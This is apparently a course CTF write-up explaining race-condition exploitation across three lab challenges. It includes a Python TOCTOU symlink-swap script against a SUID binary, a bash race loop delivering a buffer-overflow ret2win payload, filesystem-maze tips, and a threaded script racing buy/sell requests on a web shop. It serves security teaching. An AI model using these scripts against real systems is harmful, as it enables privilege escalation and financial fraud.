





# Exploiting Race Conditions


During this session we discussed the concept of race conditions in various forms, and how an attacker could exploit them. To recap, as race condition takes advantage of the fact that a system must execute a process in a specific sequence of steps, but due to the nature of modern systems there is an opportunity to alter the environment in which a process in run during this sequence of events. One common form of race condition is a Time-of-Check, Time-of-Use vulnerability (TOCTOU).

The powerpoint deck used in the session is available [here](./presentation.pdf)


## Challenge 0

The first challenge was a simple TOCTOU race condition with very little complexity. The challenge binary was inside a docker container running with SUID privileges and owned by root. 

Once connected over SSH, we can see the binary in the ctf user's home directory. The binary takes a file path as an argument, and will print the contents of any file on the filesystem except the flag. 

In a lot of Linux systems this would be enough for privilege escalation, for example we could attempt to crack the passwords in /etc/shadow  or read root ssh keys, but since this is a docker container, and a slightly contrived beginner challenge, root has no password or ssh keys. 


So how can we read the flag file? Let's take a closer look at the program. Opening the binary in our decompiler of choice (I'm using [Rizin Cutter](https://cutter.re/)) we can see the program run entirely in the `main` function. 


Let's note down the sequential steps here.

1. File path is passed to main via command line argument.
2. Introduction text is printed
3. Program checks only 1 command argument has been supplied
4. Program prints more information text
5. lstat is called to get information about the file that was supplied as the argument
6. Program prints more information
7. Program checks to ensure the supplied file is not a *symlink*
8. If it's not a symlink, the file is opened 
9. Contents of file is written to stdout
10. `main` returns.

For those who don't know, a symlink is short for *symbolic link*. A common use for symlinks is for file shortcuts. If we had a file at `/home/user/example/directory/useful_file.txt`, we could avoid having to type the whole path by creating a symlink in `/home/example/useful_file.txt`. We could also do this with the flag file in the challenge container. You may wonder why I'm explaining this, it will come in useful later.




Full compiler protections are enabled on the binary.

```bash
ctf@5496255810ec:~$ checksec --file challenge 

    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So how could this program be exploited? Well, the file information is retrieved at step 5, but the symlink check happens on step 7, and the file is opened at step 8. In between, text is printed to the screen and various other commands are run. Input/Output such as writing to stdout is very slow, and so as an attacker, there is a small window of opportunity where we could change something to trick the program into doing something unintended. This is the Time-of-Check, Time-of-Use.

Consider this, we create an empty file `s` and supply it as the argument for the challenge binary. The binary then calls lstat on `s`, and then uses that information to check its not symlink, but between `lstat` and when the program calls `open` on the file, we change `s` to actually be a symlink to `/flag`. At Time-of-Check, the supplied file passes all the checks, but at Time-of-Use, the file is a symlink allowing us to read the flag. Obviously this is a tiny window of opportunity, hence why we call it a race condition. We will need to program some automation to change the file state very quickly. 

### Exploitation

There is no single solution to most race conditions, we can use anything that comes to mind in order to increase the window of opportunity (such as using directory mazes), or to speed up the attacker side of the race. In my solution, I fork a Python program, one thread repeatedly runs the program, supplying `s` as the argument, the other repeatedly switches between `s` being an empty file and being a symlink to `/flag`.

It's worth noting that this script is pretty janky. For example the child process that is swapping the files will continue even after the parent has closed. But for challenge 1 it's enough to get the flag. The solve script is below.

```python
#! /usr/bin/python3
import os 
from pwn import *

def step1():
    os.unlink("s")
    os.close(os.open("s", os.O_CREAT))
def step2():
    os.unlink("s")
    os.symlink("/flag", "s")

if __name__ == "__main__":

    attempts = 0
    if os.fork() == 0:
        forkPID = os.getpid()
        os.close(os.open("s", os.O_CREAT))
        while True:
            step1()
            step2()

    else:
        while True:
            attempts += 1 
            p = process(["challenge", "s"], level="CRITICAL")
            result = (p.readall().decode())
            if "cueh" in result:
                log.success(result)
                log.info(f"Took {attempts} attempts")
                break
            p.close()
```

We can see it took 94 attempts before we won the race. We could take additional steps to increase our chance of winning the race, but it was not needed this time.


## Challenge 1

The second challenge was a similar setup. We can SSH into a container with a challenge binary. The challenge binary is familiar too, it still accepts a file path as a command line argument. However, this time the program does a size check on the file, if the file is too large it exits.



Let's have a look at the disassembly of this program to see what's going on.


We can see the size check ensures the file being read is less than 0x14 (20) bytes large. Additionally, we can see that rather than calling `open` and then `sendfile`, the program reads the file data onto the stack before writing it to stdout. This is a key piece of information, as we know that data of a variable size is being read onto the stack.

We should now find out how large the buffer is. We can do this easily by setting a breakpoint on the read system call, noting where the start of the input buffer, and subtract it from the `base pointer + 8`. So the offset is `0x128`, (296) bytes.


There are two more pieces to this puzzle, the first is there is a function called `win` that prints the flag. This simplifies the exploitation process as we can just ret2win rather than having to do a full rop chain.


The second is that both PIE and stack canaries have been disabled. This means we could exploit a stack based buffer overflow more easily. Additionally, the lack of PIE means the address of the `win` function is static, so we do not need to leak any addresses at runtime in order to calculate it's location.

```bash
> checksec --file challenge

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Exploitation

This time I will demonstrate how we could exploit the race condition simply using bash loops. Let's connect over SSH on two terminals, then in one set up a loop to run the program with a file argument, and grep for the flag string. We know the flag starts with `cueh`.

```bash
while true; do ./challenge test; done | grep -a cueh
```

While this hangs, in another terminal we can craft another bash loop to alter the state of the file `test`. We know the offset is 296 bytes, so lets enter 296 `A`s for filler, then the address of the `win` function. We can find the `win` function using objdump.

```bash
ctf@2fa1db31da25:~$ objdump -x challenge |  grep win
0000000000401236 g     F .text	0000000000000075              win
```

We have everything we need to craft the second loop.

```bash
while (true); do echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x36\x12\x40\x00\x00\x00\x00\x00\n' > test; echo "" > test; done
```

This is enough to get the flag.



This hit rate (on my system) is pretty low. A flag only comes out every few seconds - let's create a filesystem maze to increase the time it takes the program to locate and open the file `test`. This is because the kernel has to navigate and validate every directory in the path. This essentially widens the window of opportunity for the attacker to make the malicious change to the file.

#### Creating a filesystem maze

A file system maze is essentially a way of forcing a process to pointlessly navigate the filesystem in order to find a file. For example, we could create a directory 800 deep, and then place a file in directory 800 which is a symlink back to the directory we started.


This could slow things down a bit, but not a lot. We could create lots of maze paths like the directory above but Linux has a file path limit of 4096 bytes. We can overcome this by making a *second* symlink that points to the *end* of the file maze path.



This means that instead of needing to provide the full path, we can cover a whole maze path in just a few characters. This allows us to craft large mazes that can really slow the kernel down (within the orders of magnitude required in a race).




This time, when we run the two bash loops we get >10 hits in just a few seconds, significantly increasing our hit rate.


## Challenge 2

Challenge two switched context a little. We moved away from the single threaded binary races and into the world of multi-threaded web races.


The web application presents a page with some products. A banner shows that we have 1000 bucks. Items in the shop cost different amounts, however the flag costs more money than we currently have. We can buy things that we can afford, and we can also sell them back to the shop.


The vulnerability in this application only presents itself due to the fact that it is mutli-threaded. Had it been single threaded, we would have no race condition. This multi threaded application uses a shared resource without any locking (or similar) mechanisms for the shared resource. Let's have a look at the `sell` function.

```py
@db.connection_context()
def sell(token: str, purchase_id: int) -> (bool, str):

    purchase_history_objs = PurchaseLog.select().where(PurchaseLog.id == purchase_id)
    if len(purchase_history_objs) == 0: return False, "Product does not exist"

    purchase_history_obj = purchase_history_objs[0]
    user_objs = User.select().where(User.token == token)

    if len(user_objs) == 0: return False, "Invalid User Token"

    user_obj = user_objs[0]
    if purchase_history_obj.user_id != user_obj.id: return False, "You did not make this purchase"

    # We could have a more complex table... or we can just delete the log -_-
    PurchaseLog.delete().where(PurchaseLog.id == purchase_history_obj.id).execute()

    User.update(balance=user_obj.balance + purchase_history_obj.paid_amount) \
        .where(User.id == user_obj.id) \
        .execute()

    return True, ""
```

We can see that the item is sold before the users balance is updated. Had the application been single threaded this would not be a problem, as nothing would use the shared resource in between requests, however it is multi threaded meaning different threads may alter the shared resource without alerting the other threads. This presents us with a race condition, due to the time between the item being sold and the balance being updated, that an adversary could make an unexpected change.

### Exploitation

To exploit this, we can write a Python script to automate the process of sending buy and sell requests. We want to send significantly more sell requests than buys, and hopefully this will cause the application to sell 2+ of the same item, giving us (at least) twice the amount of money than the products value.

I grabbed the session token and hard coded that into my script, then Python's threading module to barrage the web server will sell requests, while occasionally sending a buy request. 


```py
#!/bin/python3
from requests import post, get
import threading
from time import sleep

token = "ae889bdb-20e8-42f5-af0f-c96d4e3d8074"
url = "http://172.20.0.2:5000"

def buy(token):
  return post(f"{url}/buy/1", cookies={"token": token})

def sell(token):
  id = find_id(token)
  return post(f"{url}/sell/{id}", cookies={"token": token})
  
def find_id(token):
  body = get(url, cookies={"token": token}).text
  return body.split("<form action=\"/sell/")[1].split("\" method=\"post\">")[0] 

class Buyer(threading.Thread):
  def run(self):
    while True:
      #print("Buying go faster juice...")
      buy(token)
      sleep(2)

class Seller(threading.Thread):
  def run(self):
    while True:
      try:
        #print("Selling Go faster juice..")
        sell(token)
      except:
        pass

if __name__ == "__main__":
  b = Buyer()
  b.start()
  sellers = []
  for _ in range(20):
      sellers.append(Seller())
      sellers[-1].start()

```

After a little while, I had loads of cash. Enough to buy `Gentle words of encouragement`, the `Super not important flag`, **and** a `Beer O'clock Voucher`.


# Conclusion

I hope you enjoyed this tutorial. Race conditions are not a topic covered on the current course syllabus, so hopefully this was a useful introduction, and enough for everyone to understand the basics.

Have a go at the challenge 3 container if you can, there will be a challenge published onto CTFd soon that will combine everything we've learnt so far in the binary exploitation sessions, from ROP to race. I hope you're looking forward to it!

